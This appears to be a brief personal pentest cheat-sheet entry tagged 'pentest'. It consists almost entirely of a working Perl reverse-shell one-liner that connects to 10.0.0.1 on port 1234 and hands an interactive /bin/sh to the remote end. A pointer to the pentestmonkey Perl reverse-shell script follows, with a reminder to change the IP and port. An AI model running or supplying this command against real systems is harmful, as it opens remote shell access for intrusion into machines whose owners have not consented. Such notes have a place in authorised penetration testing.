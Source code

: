 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in perl
``perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'``

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
This is a perl program which can be downloaded and modified to call back to you. (Remember to change IP + PORT)